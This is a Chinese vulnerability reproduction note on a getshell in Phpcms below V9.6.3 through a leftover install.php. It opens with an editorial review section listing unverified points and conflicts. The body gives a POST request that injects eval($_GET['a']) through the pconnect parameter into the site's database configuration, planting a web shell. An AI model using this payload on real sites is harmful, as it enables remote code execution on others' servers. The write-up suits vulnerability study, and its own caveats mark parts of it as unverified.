


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：已安装但install/install.php残留且installmodule步骤可调用；配置文件可写加载

- **结论使用边界（1）**：标题9.6.3而影响&lt;9.6.3冲突。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（2）**：只给POST行和body，没有完整参数/锁检查；保留dbport缺失导致配置报错的重要条件。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（3）**：示例写eval但未显示带a执行请求；一图引用后台菜单RCE另一条目。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（4）**：标题即使应及时；不能仅残留安装文件就证明可绕安装锁。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Phpcms V9.6.3 install.php 没有即使删除导致的getshell

一、漏洞简介
------------

比较鸡肋，需要在环境安装好了之后，install.php也没有被删除，才可以利用

二、漏洞影响
------------

Phpcms \< V9.6.3

三、复现过程
------------

    POST /install/install.php?step=installmodule
    module=admin&dbport=3306&pconnect=eval($_GET["a"])

> 这里控制的是
> pconnect参数，因为默认它没有单引号比较好调试。注意这里如果不传dbport参数的话database.php里的port参数会置空，将会报错。就无法执行到后面的
> eval了

被修改后的database.php：

url：`/caches/configs/database.php`

